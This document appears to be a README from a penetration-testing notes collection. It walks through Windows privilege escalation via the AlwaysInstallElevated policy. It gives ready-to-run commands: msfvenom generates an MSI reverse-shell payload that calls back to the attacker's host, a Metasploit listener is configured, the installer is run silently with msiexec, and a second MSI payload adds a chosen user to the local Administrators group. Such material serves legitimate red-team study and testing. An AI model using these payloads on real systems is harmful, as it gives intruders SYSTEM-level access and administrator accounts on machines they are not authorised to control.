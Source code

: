 # AlwaysInstallElevated: Privilege Escalation

**MSI packages** can be installed with **elevated privileges** by non-admin users.

## Get an elevated reverse shell

1. Generate an **MSI payload** to get an elevated **reverse shell**

        msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=4444 -f msi > elevated_shell.msi

2. Use `exploit/multi/handler` metasploit module to start a listener

        msfconsole
        use exploit/multi/handler
        set payload windows/shell/reverse_tcp
        set LHOST <Local IP Address>
        set LPORT 4444
        run

3. Run following command to execute the malicious Windows Installer file

        msiexec /q /i .\elevated_shell.msi

4. Confirm if the privileges got escalated successfully by running `whoami`

        C:\Windows\system32>whoami
        whoami
        nt authority\system

## Add local admin privileges

1. Verify whether the Windows installer has elevated privileges or not

        reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

    “AlwaysInstallElevated” registry with a dword (REG_WORD) value of **0x1** means that the AlwaysInstallElevated policy is enabled.

2. Select a non-admin user

        net user
        net user USERNAME

3. Generate an MSI payload to add local admin privileges for an existing non-admin user account

        msfvenom -p windows/exec CMD='net localgroup administrators USERNAME /add' -f msi > pwn.msi

4. [Transfer the payload](../../windows_post_exploitation/file_transfer_smbserver/README.md) to victim's machine
5. Execute the installer

        msiexec /quiet /qn /i pwn.msi

6. Verify if the selected user was successfully added to Local Administrators group

        net user USERNAME

    You should see the following output:

        ...
        Local Group Memberships      *Administrators
        ...

## References

* https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/
* https://www.hackingarticles.in/bypass-application-whitelisting-using-msiexec-exe-multiple-methods/
* https://docs.microsoft.com/en-us/windows/win32/msi/command-line-options
* https://www.tutorialspoint.com/get-the-reverse-shell-with-msi-package
* https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/